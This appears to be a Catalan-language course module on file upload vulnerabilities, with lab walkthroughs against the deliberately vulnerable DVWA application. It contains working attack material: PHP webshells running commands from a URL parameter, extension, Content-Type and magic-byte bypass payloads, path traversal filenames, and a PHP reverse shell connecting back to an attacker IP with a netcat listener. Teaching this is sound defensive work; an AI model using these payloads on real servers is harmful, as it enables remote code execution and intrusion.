







# 03. Vulnerabilitat File Upload

**File Upload**: Vulnerabilitat que permet a un atacant pujar fitxers maliciosos al servidor web. Si aquests fitxers disposen de codi executable (PHP, JSP, ASP, etc.) i l'aplicació no valida correctament l'extensió, tipus de fitxer, el contingut o els permisos, l'atacant pot aconseguir una execució remota de codi (RCE).

## Vulnerabilitats relacionades amb Broken Access Control

- LFI/RFI: Permeten accedir i executar fitxers sense autorització
- Path Traversal: Permet saltar-se restriccions de directori
- IDOR: Permet accedir a recursos específics manipulant identificadors
- File Upload: Permet pujar fitxers maliciosos que poden executar-se

## Impacte de la vulnerabilitat File Upload

- ✅ **Execució remota de codi (RCE)** - Pujar webshells PHP/ASP/JSP per executar comandes
- ✅ **Persistència** - Mantenir accés al servidor mitjançant backdoors
- ✅ **Exfiltració de dades** - Accedir i descarregar informació sensible del servidor
- ✅ **Denial of Service (DoS)** - Pujar fitxers enormes per exhaurir espai en disc

## Com funciona File Upload vulnerable?

Les aplicacions web són vulnerables a File Upload quan no validen correctament:

```php
<?php
// Codi vulnerable - NO valida tipus de fitxer
$nom_fitxer = $_FILES['fitxer']['name'];
$ruta_desti = "/var/www/html/uploads/" . $nom_fitxer;
move_uploaded_file($_FILES['fitxer']['tmp_name'], $ruta_desti);
echo "Fitxer pujat: " . $nom_fitxer;
?>
```

**Funcionament normal:**

```
Input: imatge.jpg (fitxer JPG legítim)
Upload: /var/www/html/uploads/imatge.jpg
Accés: http://servidor.cat/uploads/imatge.jpg
Resultat: Imatge pujada correctament
```

**Atac de File Upload:**

```
Input: shell.php (webshell bàsica)
Upload: /var/www/html/uploads/shell.php
Accés: http://servidor.cat/uploads/shell.php?cmd=whoami
Resultat: Execució de comandes al servidor!
```

## Tipus d'Atacs de File Upload

### 1. **Bypass d'Extensió**

Tècniques per evitar les validacions o bloquejos per l'extensió:

```
shell.php           → Bloquejat per validació
shell.php.jpg       → Ús d'una doble extensió
shell.php%00.jpg    → Null byte injection (només vàlid amb PHP < 5.3)
shell.PhP           → Variacions de l'extensió (si només comprova 1 cas)
shell.phtml         → Extensions alternatives de PHP que permeten executar codi
shell.php5
shell.phar
```

### 2. **Bypass de Content-Type**

Manipular el header Content-Type de la petició:

```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----separador

------separador
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg    ← Modificat per fer bypass de la validació

<?php system($_GET['cmd']); ?>
------separador--
```

### 3. **Polyglot Files (Fitxers Híbrids)**

Crear fitxers que són alhora una imatge vàlida i que conté codi PHP executable:

```bash
# Crear polyglot JPG + PHP
cat imatge.jpg shell.php > hybrid.php.jpg

# O inserir PHP dins de les metadades de la imatge amb EXIFTOOL
exiftool -Comment='<?php system($_GET["cmd"]); ?>' imatge.jpg -o shell.php.jpg
```

### 4. **Path Traversal amb File Upload**

Manipular el nom del fitxer per escriure en ubicacions específiques.

Alguns exemples de noms de fitxers per forçar la reescriptura del seu destí al servidor web:

```
../../../var/www/html/shell.php
....//....//shell.php
..%2f..%2fshell.php
```

### 5. **Magic Bytes Spoofing**

Afegir Magic Bytes d'imatge al principi del fitxer PHP:

```php
GIF89a
<?php system($_GET['cmd']); ?>
```

Altres exemples de Magic Bytes:

```
%PDF-1.4 --> PDF
‰PNG --> PNG
BM --> BMP
ÿØÿJFIF --> JPEG
```

## File Upload amb DVWA

**Com funciona?**

L'aplicació permet "pujar imatges" al servidor sense validar correctament el tipus de fitxer que està rebent.



### Exemple 1: Enviar una Webshell PHP Bàsica

**1. Crear una webshell PHP simple**

```php
<?php
// regal-ciber.php
system($_GET['cmd']);
?>
```

**2. Pujar el fitxer webshell.php**

- Fer clic a "Browse" i seleccionar `webshell.php`
- Fer clic a "Upload"



L'aplicació retorna la ubicació del fitxer pujat:

```
../../hackable/uploads/regal-ciber.php succesfully uploaded!
```

**4. Accedir a la webshell i verificar el funcionament**

Navegar a la URL del fitxer pujat:

```
http://IP_DE_LA_VM/dvwa/hackable/uploads/regal-ciber.php?cmd=id
```



### Exemple 2: Reverse Shell amb File Upload

**1. Crear una webshell per habilitar una reverse shell**

`Nota`: Podeu fer ús d'una php reverse shell completa a:

```
/usr/share/seclists/Web-Shells/laudanum-1.0/php/php-reverse-shell.php
```

O crear una de bàsica:

```php
<?php
// ciber-shell.php (bàsica)
set_time_limit(0);
$ip = '10.0.2.15';  // IP del Kali
$port = 4444;

$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/bash', array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
```

**2. Pujar la ciber-shell.php a DVWA**

**3. Activar el listener al Kali amb Netcat**

```bash
nc -nvlp 4444
```

**4. Activar la reverse shell**

Accedir a la URL:

```
http://IP_DE_LA_VM/dvwa/hackable/uploads/ciber-shell.php
```

**5. Reverse shell rebuda**



### Exemple 3: File Upload modificant la petició amb Burp Suite

**1. Activar Intercept a Burp Suite**

Proxy → Intercept → Intercept is on

**2. Pujar un fitxer i interceptar la petició**



**3. Modificar la petició si cal**

- Canviar `filename="webshell.php"` per intentar fer un bypass
- Modificar `Content-Type` per intentar fer un bypass
- Enviar la petició (Forward)

**4. Verificar la resposta**



### Exemple 4: Combinar File Upload amb LFI

Una tècnica molt utilitzada és **la de combinar File Upload amb LFI** per executar fitxers que inicialment només permeten mostrar el seu contingut.

**Escenari:**

1. **File Upload** permet pujar imatges (JPG, PNG)
2. **LFI** permet incloure fitxers locals
3. **Combinar** ambdues vulnerabilitats per aconseguir RCE

**Pas 1: Crear fitxer amb codi PHP**

```php
<?php
// ciber-imatge.jpg
system($_GET['cmd']);
?>
```

**Pas 2: Pujar ciber-imatge.jpg via File Upload**

```
Uploaded: /hackable/uploads/ciber-imatge.jpg
```

**Pas 3: Incloure via LFI**

Si accedim directament a la imatge no s'executa el codi PHP

```
http://IP_DE_LA_VM/dvwa/hackable/uploads/ciber-imatge.jpg
```

En canvi si aprofitem la vulnerabilitat Local File Inclusion si que s'executarà el codi PHP:

```
http://IP_DE_LA_VM/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/ciber-imatge.jpg&cmd=id
```


